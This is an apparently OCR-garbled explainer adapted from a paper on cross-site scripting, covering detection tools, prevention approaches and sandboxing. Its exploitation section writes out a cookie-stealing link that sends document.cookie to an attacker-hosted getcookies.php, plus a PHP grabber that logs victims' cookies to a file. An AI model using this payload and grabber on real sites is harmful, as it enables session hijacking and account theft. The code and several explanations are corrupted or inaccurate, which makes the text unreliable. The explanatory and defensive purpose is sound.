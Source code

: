  
<h1>Cross-Site Scripting (XSS) attack </h1>
is a common vulnerability which is being exploited in web 
applicationsthrough the injection of HTML tags and malicious Java Script code.

The usual method of sanitizing Javascript code stil leavs vulnerabilites on the table,instead 
the researchers propose the use  of a Sandbox environment used in sites like blogger.com operated 
by Google.

Often the target of these attacks is to get cookies,
Cookies are the most general way to identify and authenticate
the users and it is being supported by almost all the web
browsers.

Recent survey has shown that almost 67% of websites are vulnerable to XSS attacks.

<h2><i>Detection of XSS Vulnerability:</i></h2>
we could do a static source code analysis or do dynamic testing by executing known attacks on 
the site.
L-WMxD (Lexical based Webmail XSS
Discoverer), which works on a lexical based mutation engine
which is an active defence system to discover XSS before the
Webmail application is online for service.
Pixy is a tool that performs data flow
analysis on PHP code to detect reflected XSS vulnerabilities.
Various prototype tools which are based on Pixy have been
implemented by the researchers and test on the real world
PHP programs.

<h2><i>Prevention of XSS Vulnerability</i></h2>
application-level firewall is suggested,
which is located on a security gateway between client and
server and which applies all the security relevant checks and
transformations. Some server side prevention approaches
require the collaboration of web browsers.

On the client side, researchers have developed the Noxes
 which acts as a personal firewal on the basis of filter rules,a user-specified URL white-list and blacklist
websites. During the HTTP request to an unknown website, Noxes immediately alerts the client, who
chooses to permit or deny the connection, and remembers the
client’s action for future use. Another client side approach which aims to identify the information
leakage using tainting of input data in the browser or 
mechanism for detecting malicious java script is proposed: the system consists of a browser-embedded script auditing
component, and IDS that processes the audit logs and compares them to signatures of known malicious behavior or attacks.

There are no logical server side solutions, as they face a deployment issue and degrade the web speed also.
<h2><i>ARCHITECTURE OF EXPLOITING
XSS VULNERABILITY</i></h2>

Web applications frequently use cookies for retaining an authentication state between users and web applications.
These cookies are usually sent to the users by the web applications after the users have been successfully
authenticated. Every consequent request that contains the legitimate cookies will be automatically approved by the web
applications without any further authentication.
Hence they are the target for vulnerabilities.
```
<a onclick

documentlocation=http localhost/xss-
attacker/getcookies php cookie="rescape(document cookie)
href="2">click here </a> to know about XSS attack
```
The following are the details of this malicious Java Script
code:

On Click Event: This event executes the Java Script
function, which is embedded inside it.
Document. Location: This function will store the
address or URL where the actual file has to be
transferred.
Get Cookies.PHP: It is a cookie grabber file which
will store on the attacker site and steal the cookies
of the victim’s domain.
Escape (document.cookie): Escape is a function call
which will pass the argument i.e. document. Cookie.
Document is an object and Cookie is a file in Java
Script which will capture the current cookies of any
particular session.

cookie stealer file which is loaded on the attacker site and transfers
the current cookies to a blank cookie.txt file which is also
loaded on the attacker site. Following is the vulnerable PHP
code of a cookie stealer file.
```
- <’php
. Scookie=";
. foreach(S_GET as Skey=>Svalue)

. Scookie =Skey.= $value;

- }

. Sdate=date("d'm/'Yhi:sA");

. Suser_agent=$_SERVER[HTTP_USER_AGENT];

. $file = fopen(cookies txt’, a’);

10. fwrite($file,"Sdate : Scookie \n");

11. fclose($file);

12. echo '<b>sorry this page is under construction</b><br>
</br>Please click <a href "http://www.google.com/">
here</a>to go back to previous menu’

?>
```
The attacker domain has stored the cookie grabber file and
blank cookie.txt file. So, when the victim click on the
malicious link posted by the attacker, the cookie grabber file
gets executed on the victim’s domain and victim’s cookie will
get transfer to the blank cookie.txt file in which user-id,
password and session-id of victim’s account is stored clearly.
<h2><i>Cross-Site Scripting Defense</i></h2>

Sandbox is a restricted environment which runs our programs
in an isolated space, which prevents them from making
permanent changes to other programs and data in the
computer. The following are some benefits of sandboxing
technique:-
 
Secure Web Browsing: Running our Web browser
under the protection of Sandbox means that all
malicious software downloaded by the browser is
trapped in the sandbox and can be discarded
trivially.<br>
Enhanced Privacy: Browsing history, cookies, and
cached temporary files collected while Web
browsing stay in the sandbox and don't leak into
Windows.<br>
Secure E-mail: Viruses and other malicious
software that might be hiding in your email can't
break out of the sandbox and can't infect your real
system.<br>
Windows Stays Lean: It prevents wear-and-tear in
Windows by installing software into an isolated
sandbox.





